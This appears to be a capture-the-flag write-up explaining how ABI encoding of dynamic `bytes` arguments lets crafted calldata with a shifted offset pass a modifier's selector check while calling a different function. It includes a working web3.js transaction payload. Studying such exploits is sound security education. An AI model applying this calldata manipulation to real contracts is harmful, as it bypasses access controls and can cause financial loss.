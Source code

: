### References
- [Use of Dynamic Types](https://docs.soliditylang.org/en/latest/abi-spec.html#use-of-dynamic-types)
- [EVM opcode docs](https://www.ethervm.io/#37)

## Key Observation

Dynamic input types encoding is as following:
- First word (32 bytes) holds the `offset` of start of the data (i.e. the start index of the `length` word).
- Second word (32 bytes) holds the `length` of the dynamic data in bytes.
- Following bytes contain the data itself.


In our case, `flipSwitch` function accepts a single dynamic type `bytes`.
<br>
So, the **"normal"** value for `offset` would be 32, and the `data` would start in position 68 (after the 2 words containing `offset` and `length`, not counting the first 4 bytes of the `method signature`).

## The Exploit

We can change edit the `offset` to a higher number after the first 72 bytes of `calldata` (i.e. 68 bytes if we don't count the first 4 bytes of `method signature`).
<br>
This way we **shift** the data to follow the first 72 bytes that will be used to pass the modifier's validation.

##

```js
// Note: When 
await web3.eth.sendTransaction({
    from: player,
    to: contract.address,
    data:
        web3.utils.sha3('flipSwitch(bytes)').substring(0, 10) +                 // "flipSwitch" signature       (4 bytes)
        web3.eth.abi.encodeParameter('uint256', '68').substring(2) +            // bytes _data offset           (32 bytes)
        web3.eth.abi.encodeParameter('uint256', '0').substring(2) +             // unused word                  (32 bytes)
        web3.utils.sha3('turnSwitchOff()').substring(0, 10).substring(2) +      // "turnSwitchOff" signature    (4 bytes)
        web3.eth.abi.encodeParameter('uint256', '4').substring(2) +             // bytes _data length           (32 bytes)
        web3.utils.sha3('turnSwitchOn()').substring(0, 10).substring(2),        // "turnSwitchOn" signature     (4 bytes)
})
```
